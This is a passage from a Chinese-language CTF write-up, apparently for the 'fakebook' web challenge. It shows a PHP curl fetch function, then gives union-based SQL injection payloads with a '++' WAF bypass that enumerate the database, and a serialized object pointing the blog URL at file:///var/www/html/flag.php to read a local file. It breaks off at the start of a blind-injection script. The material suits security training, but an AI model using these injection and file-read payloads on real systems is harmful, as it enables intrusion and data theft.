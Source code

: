 ```php
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```
注册之后可以看到注入点get
![](https://img-blog.csdnimg.cn/20200315152608267.png)
### 预期
在注册处首先抓包，然后用sqlmap跑
![](https://img-blog.csdnimg.cn/20200315162555916.png)
发现表中存储的是反序列化，接下来在get处注入，有waf所以用++
```sql
?no=-1++union++select++1,group_concat(schema_name),3,4++from++information_schema.schemata--+
```
![](https://img-blog.csdnimg.cn/20200315163134233.png)
```sql
?no=-1++union++select++1,group_concat(table_name),3,4++from++information_schema.tables++where++table_schema='fakebook'-- +
```
![](https://img-blog.csdnimg.cn/2020031516340020.png)
```sql
?no=-1++union++select++1,group_concat(column_name),3,4++from++information_schema.columns++where++table_name='users'--+
```
![](https://img-blog.csdnimg.cn/20200315163607363.png)
最后将博客地址改成file:///var/www/html/flag.php来进行序列化。
```sql
?no=0++union++select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
![](https://img-blog.csdnimg.cn/20200315164315712.png)
查看源码得到了一串base64的链接
![](https://img-blog.csdnimg.cn/20200315164457233.png)
打开即可得到flag
![](https://img-blog.csdnimg.cn/20200315164607923.png)
### 非预期
由于题目没过滤load_file，可直接盲注，师傅脚本如下
```python
import requests

```